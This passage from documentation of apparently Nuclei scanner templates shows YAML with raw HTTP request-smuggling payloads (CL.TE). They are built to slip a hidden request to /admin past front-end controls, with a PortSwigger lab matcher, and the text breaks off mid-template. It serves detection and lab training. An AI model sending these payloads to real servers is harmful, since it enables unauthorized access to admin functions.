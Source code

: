````markdown
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked

      0

      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10

      x=
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked

      0

      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10

      x=

    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "/admin/delete?username=carlos")'
```

## Differential responses based CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-cl-te-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses

http:
  - raw:
    - |+
````